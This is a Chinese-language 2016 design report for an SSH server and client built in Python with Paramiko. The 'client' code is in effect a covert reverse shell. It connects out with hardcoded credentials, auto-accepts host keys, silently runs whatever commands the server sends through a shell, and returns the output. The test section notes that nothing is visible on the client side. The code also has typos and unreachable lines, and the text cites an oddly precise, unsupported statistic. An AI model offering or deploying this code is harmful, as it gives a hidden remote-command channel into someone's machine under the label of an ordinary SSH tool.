# SSH服务器和客户端的设计

python实现

申恒恒

2016-05-02

# 引言

传统的网络服务程序，如rsh、FTP、POP和Telnet其本质上都是不安全的；因为它们在网络上用明文传送数据、用户帐号和用户口令，很容易受到中间人MITM（man-in-the-middle）攻击方式的攻击。就是存在另一个人或者一台机器冒充真正的服务器接收用户传给服务器的数据，然后再冒充用户把数据传给真正的服务器。而SSH可以对所有传输的数据进行加密，也能够防止DNS欺骗和IP欺骗。所以最常用的方式就是利用SSH（安全外壳）来发送流量，但是对于大部分（约99.81943%）的Windows主机来说，不存在SSH客户端。在这里会利用网络编程中的套接字编程结合**Paramiko**库开发SSH应用程序。

参见Github库[paramiko](https://github.com/paramiko/paramiko/)

# 总体概述

采用经典的**C/S**架构，将服务器端和客户端分而治之，利用Paramiko函数库快速的实现.

## 在客户端来看，SSH提供两种级别的安全验证。

1. （基于密码的安全验证），知道帐号和密码，就可以登录到远程主机，并且所有传输的数据都会被加密。但是，可能会有别的服务器在冒充真正的服务器，无法避免被“中间人”攻击。
2. （基于密钥的安全验证），需要依靠密钥，也就是你必须为自己创建一对密钥，并把公有密钥放在需要访问的服务器上。客户端软件会向服务器发出请求，请求用你的密钥进行安全验证。服务器收到请求之后，先在你在该服务器的用户根目录下寻找你的公有密钥，然后把它和你发送过来的公有密钥进行比较。如果两个密钥一致，服务器就用公有密钥加密“质询”（challenge）并把它发送给客户端软件。从而避免被“中间人”攻击。

## 在服务器端，SSH也提供安全验证。

1. 在第一种方案中，主机将自己的公用密钥分发给相关的客户端，客户端在访问主机时则使用该主机的公开密钥来加密数据，主机则使用自己的私有密钥来解密数据，从而实现主机密钥认证，确保数据的保密性。
2. 在第二种方案中，存在一个密钥认证中心，所有提供服务的主机都将自己的公开密钥提交给认证中心，而任何作为客户端的主机则只要保存一份认证中心的公开密钥就可以了。在这种模式下，客户端必须访问认证中心然后才能访问服务器主机。



# 详细设计

## 客户端设计

```python
def ssh_command(ip, user, passwd, command):
    client = paramiko.SSHClient()
    # client.load_host_keys('./known_hosts')
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(ip, username=user, password=passwd)
    ssh_session = client.get_transport().open_session()

    if ssh_session.active:
        ssh_session.send(command)
        print ssh_session.recv(1024)
        while 1:
            command = ssh_session.recv(1024)
            try:
                cmd_output = subprocess.check_output(command, shell=True)
                ssh_session.send(cmd_output)
            except Exception, e:
                ssh_session.send(str(e))
        client.close()
    return
```

在这里，创建了名为ssh_command的函数，该函数的功能为连接到SSH服务器并运行一条命令。另外Paramiko支持密钥验证来代替密码验证，在现实情况下基本都为密钥认证，但是为了方便起见，在这里利用了传统的用户名和密码的方式进行验证。 因为连接两端的主机（server端和client端）都在控制之下，所以通过设置策略自动添加和保存目标SSH服务器的SSH密钥

```python
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
```

然后开始进行连接，最后假设连接成功，通过调用ssh_command函数，发出第一条命令 **clientConnected**

```python
ssh_command('192.168.1.3', 'administrator', 'heng130509', 'ClinetConnected')
```

## 服务器端设计

```python
host_key = paramiko.RSAKey(filename = 'test_rsa.key')
```

使用了Paramiko的实例文件。 然后开启了一个套接字监听

参见Github库**test_rsa**[示例文件](https://raw.githubusercontent.com/paramiko/paramiko/master/tests/test_rsa.key)

```python
class Server(paramiko.ServerInterface):
    """docstring for Server"""
    def __init__(self):
        self.event = threading.Event()
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
    def check_auth_password(self, username, password):
        if (username == 'administrator') and(password == 'heng130509'):
            return paramiko.AUTH_SUCCESSFUL
        return paramiko.AUTH_FAILED
```

之后使用SSH管道并配置认证模式

```python
try:
    shSession = paramiko.Transport(client)
    shSession.add_server_key(host_key)
    server = Server()
    try:
        shSession.start_server(server=server)

    except paramiko.SSHEXceptionn, x:
        print '[-] SSH negotition failed'
```

当一个客户端认证成功并返回ClientConnected消息，然后输入到*sh_sshserver*的任何命令将发送给*sh_sshclient*并在*bh_sshclient*上执行，输出结果将返回给*sh_sshserver*

```python
while 1:
        try:
            command = raw_input("Enter command:").strip('\n')
            if command != 'exit':
                chan.send(command)
                print chan.recv(1024) + '\n'
            else:
                chan.send('exit')
                print 'exiting'
                shSession.close()
                raise Exception("Exit")
        except KeyboardInterrupt:
            shSession.close()
except Exception, e:
    print '[-] Caught exception: ' +  str(e)
    try:
        shSession.close()
    except:
        pass
    sys.exit(1)
```

# 测试

作为示例，将在windows主机上同时运行客户端和服务器端代码 步骤如下：

1. 运行服务器端



2. 使用客户端连接，客户端连接成功，客户端返回给服务器端**ClientConnected**消息



3. 在服务器端执行一条命令，在客户端看不到任何情况，但是命令在客户端已经执行了，并且客户端将执行的结果返回给SSH服务端.

